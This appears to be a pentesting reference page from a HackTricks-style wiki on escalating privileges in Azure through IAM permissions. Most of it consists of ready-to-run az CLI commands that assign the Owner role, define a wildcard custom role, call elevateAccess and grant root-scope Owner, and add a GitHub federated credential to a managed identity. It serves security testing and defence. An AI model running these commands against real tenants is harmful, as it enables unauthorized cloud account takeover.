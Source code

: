 # Az - Azure IAM Privesc (Authorization)

{{#include ../../../banners/hacktricks-training.md}}

## Azure IAM

Fore more information check:

{{#ref}}
../az-services/az-azuread.md
{{#endref}}

### Microsoft.Authorization/roleAssignments/write

This permission allows to assign roles to principals over a specific scope, allowing an attacker to escalate privileges by assigning himself a more privileged role:

```bash
# Example
az role assignment create --role Owner --assignee "24efe8cf-c59e-45c2-a5c7-c7e552a07170" --scope "/subscriptions/9291ff6e-6afb-430e-82a4-6f04b2d05c7f/resourceGroups/Resource_Group_1/providers/Microsoft.KeyVault/vaults/testing-1231234"
```

### Microsoft.Authorization/roleDefinitions/Write

This permission allows to modify the permissions granted by a role, allowing an attacker to escalate privileges by granting more permissions to a role he has assigned.

Create the file `role.json` with the following **content**:

```json
{
  "Name": "<name of the role>",
  "IsCustom": true,
  "Description": "Custom role with elevated privileges",
  "Actions": ["*"],
  "NotActions": [],
  "DataActions": ["*"],
  "NotDataActions": [],
  "AssignableScopes": ["/subscriptions/<subscription-id>"]
}
```

Then update the role permissions with the previous definition calling:

```bash
az role definition update --role-definition role.json
```

### Microsoft.Authorization/elevateAccess/action

This permissions allows to elevate privileges and be able to assign permissions to any principal to Azure resources. It's meant to be given to Entra ID Global Administrators so they can also manage permissions over Azure resources.

> [!TIP]
> I think the user need to be Global Administrator in Entrad ID for the elevate call to work.

```bash
# Call elevate
az rest --method POST --uri "https://management.azure.com/providers/Microsoft.Authorization/elevateAccess?api-version=2016-07-01"

# Grant a user the Owner role
az role assignment create --assignee "<obeject-id>" --role "Owner" --scope "/"
```

### Microsoft.ManagedIdentity/userAssignedIdentities/federatedIdentityCredentials/write

This permission allows to add Federated credentials to managed identities. E.g. give access to Github Actions in a repo to a managed identity. Then, it allows to **access any user defined managed identity**.

Example command to give access to a repo in Github to the a managed identity:

```bash
# Generic example:
az rest --method PUT \
  --uri "https://management.azure.com//subscriptions/<subscription-id>/resourceGroups/<res-group>/providers/Microsoft.ManagedIdentity/userAssignedIdentities/<managed-identity-name>/federatedIdentityCredentials/<name-new-federated-creds>?api-version=2023-01-31" \
  --headers "Content-Type=application/json" \
  --body '{"properties":{"issuer":"https://token.actions.githubusercontent.com","subject":"repo:<org-name>/<repo-name>:ref:refs/heads/<branch-name>","audiences":["api://AzureADTokenExchange"]}}'

# Example with specific data:
az rest --method PUT \
  --uri "https://management.azure.com//subscriptions/92913047-10a6-2376-82a4-6f04b2d03798/resourceGroups/Resource_Group_1/providers/Microsoft.ManagedIdentity/userAssignedIdentities/funcGithub-id-913c/federatedIdentityCredentials/CustomGH2?api-version=2023-01-31" \
  --headers "Content-Type=application/json" \
  --body '{"properties":{"issuer":"https://token.actions.githubusercontent.com","subject":"repo:carlospolop/azure_func4:ref:refs/heads/main","audiences":["api://AzureADTokenExchange"]}}'
```

{{#include ../../../banners/hacktricks-training.md}}


